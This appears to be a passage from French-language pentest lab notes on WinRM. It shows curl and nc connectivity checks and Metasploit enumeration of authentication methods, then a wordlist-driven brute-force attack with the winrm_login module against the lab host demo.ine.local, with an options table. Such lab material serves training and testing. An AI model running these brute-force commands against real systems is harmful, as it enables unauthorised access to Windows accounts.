 ### Test manuel WinRM
```bash
# Test de connectivité WinRM
curl http://demo.ine.local:5985/wsman
nc demo.ine.local 5985

# Headers WinRM attendus
# Server: Microsoft-HTTPAPI/2.0
# Content-Type: application/soap+xml
```

### Énumération WinRM avec Metasploit
```bash
# Module de scan WinRM
msfconsole -q
use auxiliary/scanner/winrm/winrm_auth_methods
set RHOSTS demo.ine.local
exploit

# Résultat typique :
# [+] Authentication Methods: Basic, Negotiate
```

---

## 🔐 3. Brute Force WinRM avec Metasploit

### Module winrm_login (Principal)
```bash
# Lancement Metasploit
msfconsole -q

# Module de brute force WinRM
use auxiliary/scanner/winrm/winrm_login
show options

# Configuration de base
set RHOSTS demo.ine.local
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
set PASSWORD anything    # Requis dans versions récentes
exploit
```

### Options du module winrm_login
| Option | Description | Valeur recommandée |
|--------|-------------|-------------------|
| `RHOSTS` | IP(s) cible(s) | demo.ine.local |
| `RPORT` | Port WinRM | 5985 (défaut) |
| `USER_FILE` | Liste utilisateurs | common_users.txt |
| `PASS_FILE` | Liste mots de passe | unix_passwords.txt |
| `USERNAME` | Utilisateur unique | administrator |
| `PASSWORD` | Mot de passe unique | anything (requis) |
| `VERBOSE` | Mode verbose | false |
| `SSL` | Utiliser HTTPS | false (port 5985) |
| `DOMAIN` | Domaine Windows | (optionnel) |
